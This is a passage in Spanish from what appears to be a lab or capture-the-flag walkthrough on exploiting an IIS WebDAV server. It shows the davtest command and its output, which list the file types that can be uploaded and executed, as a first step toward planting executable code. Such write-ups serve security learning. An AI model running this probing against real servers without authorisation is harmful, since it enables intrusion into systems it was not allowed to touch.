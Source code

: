 
### WebDav 

Para intentar **explotar** el servidor **webdav** y subir un archivo, es necesario comprender que este facilita la subida y bajada de archivos, de manera similar a un servidor **FTP**. Con esto en mente, se pretende cargar en el servidor un archivo que pueda ejecutarse. Para servidores **IIS**, estos archivos suelen ser **.asp** o **.aspx**. Se puede utilizar **davtest** para probar qué archivos se pueden subir con el siguiente comando:


```bash
davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: fJFDtAyi3tknCLH
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH
********************************************************
 Sending test files
PUT	shtml	FAIL
PUT	cgi	FAIL
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.jsp
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.html
PUT	asp	FAIL
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.cfm
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.jhtml
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.php
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.txt
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.pl
PUT	aspx	FAIL
********************************************************
 Checking for test file execution
EXEC	jsp	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.html
EXEC	html	FAIL
EXEC	cfm	FAIL
EXEC	jhtml	FAIL
EXEC	php	FAIL
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.txt
EXEC	txt	FAIL
EXEC	pl	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.jsp
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.html
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.cfm
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.jhtml
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.php
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.txt
PUT File: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.pl
Executes: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.html
Executes: http://10.10.10.15/DavTestDir_fJFDtAyi3tknCLH/davtest_fJFDtAyi3tknCLH.txt
```
{: .nolineno}
